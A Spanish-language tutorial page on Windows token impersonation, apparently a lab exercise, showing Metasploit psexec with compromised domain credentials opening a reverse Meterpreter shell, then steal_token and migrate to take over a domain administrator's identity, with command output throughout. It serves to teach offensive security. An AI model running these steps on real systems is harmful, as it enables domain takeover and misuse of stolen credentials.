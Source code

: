 ```yaml
---
icon: blog
---
```


# Token impersonation

Esta tecnica se vaya en obtener el `Token` de acceso de un usuario en las `logon sessions` y utilizar dicho `token` para suplantarlo como dicho usuario y ejecutar cosas como dicho usuario, explicado asi de forma resumida.

Para ello vamos a utilizar `metasploit` ya que contiene `meterpreter` un comandito que facilita todo esto.

Si no tenemos `metasploit` instalado, lo instalaremos de la siguiente forma:

```shell
sudo apt install metasploit-framework
```

Entramos dentro del el, de la siguiente forma:

```shell
msfconsole -q
```

Pongamos que hemos comprometido las credenciales del usuario `empleado1` que seria `Passw0rd2` y tendremos que desactivar el antivirus del equipo `empleado1`, lo podriamos hacer con un codigo ofuscado con `msfvenom` o haciendo un `bypass` del antivirus, pero vamos hacerlo de forma sencilla para que se vea bien, por lo que lo desactivaremos y haremos lo siguiente:

```shell
use exploit/windows/smb/psexec
```

Esto lo estamos haciendo dentro del `metasploit` por que quiero utilizar el `meterpreter` ya que tiene unos comandos bastante sencillitos para realizar la tecnica de `Token impersonation`.

Una vez dentro del modulo, haremos lo siguiente:

```shell
set RHOSTS 192.168.5.208
set SMBDOMAIN CORP
set SMBPASS Passw0rd2
set SMBUSER empleado1
set LHOST 192.168.5.205
set LPORT 7777
exploit
```

Info:

```
[*] Started reverse TCP handler on 192.168.5.205:7777 
[*] 192.168.5.208:445 - Connecting to the server...
[*] 192.168.5.208:445 - Authenticating to 192.168.5.208:445|CORP as user 'empleado1'...
[*] 192.168.5.208:445 - Selecting PowerShell target
[*] 192.168.5.208:445 - Executing the payload...
[+] 192.168.5.208:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (177734 bytes) to 192.168.5.208
[*] Meterpreter session 1 opened (192.168.5.205:7777 -> 192.168.5.208:55999) at 2025-01-25 06:45:59 -0500

meterpreter >
```

Y vemos que nos creo una `shell` adecuadamente con `meterpreter`.

Si vemos que usuario somos:

```
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

Vemos que somo el `AUTHORITY\SYSTEM` ya que este usuario tiene privilegios de `administrador` en la maquina de forma local, por lo que `metasploit` ya se encarga de escalar y darnos dicho usuario.

Pero a nivel de `dominio` seremos un usuario normal en este caso, por lo que vamos a iniciar un `PowerShell` como el usuario `Administrador` pero del `dominio` para que se cree un `Token` de acceso con dicho usuario en la maquina de `empleado1`.

Una vez echo esto anterior, si volvemos a `metasploit` haremos lo siguiente:

```shell
meterpreter > ps
```

Poniendo eso, veremos todos los procesos que se estan corriendo en la maquina y si observamos la siguiente linea de proceso:

```
3140  4036  powershell.exe               x64   1        CORP\Administrator            C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
```

Vemos que hay un `PowerShell` como el usuario `Administrador` de dominio corriendo en ese equipo.

Ahora lo que vamos hacer es robar el `token` del proceso que queremos en mi caso del `3140`, por lo que haremos lo siguiente:

```shell
meterpreter > steal_token 3140
```

Info:

```
Stolen token with username: CORP\Administrator
```

Como vemos ha funcionado y estaremos autenticado bajo ese usuario, si probamos a ver que usuario somos ahora:

```shell
meterpreter > getuid
Server username: CORP\Administrator
```

Veremos que somos el usuario `administrador` del dominio, por lo que habremos comprometido la maquina completamente.

Pero a parte de robar el `token` lo que tambien podremos hacer es migarar al proceso que queremos donde el usuario esta ejecutando ese proceso del cual queremos ser entre comillas que va a estar autenticado con su `token` de acceso.

Tendremos que hacer lo siguiente:

```shell
meterpreter > migrate 3140
```

Info:

```
[*] Migrating from 3812 to 3140...
[*] Migration completed successfully.
```

Ahora si vemos que usuario somos:

```shell
meterpreter > getuid
Server username: CORP\Administrator
```

Vemos que somos el usuario `Administrador` del dominio de nuevo.

Pero es mas recomendable robar el `Token`de acceso para un caso practico real.
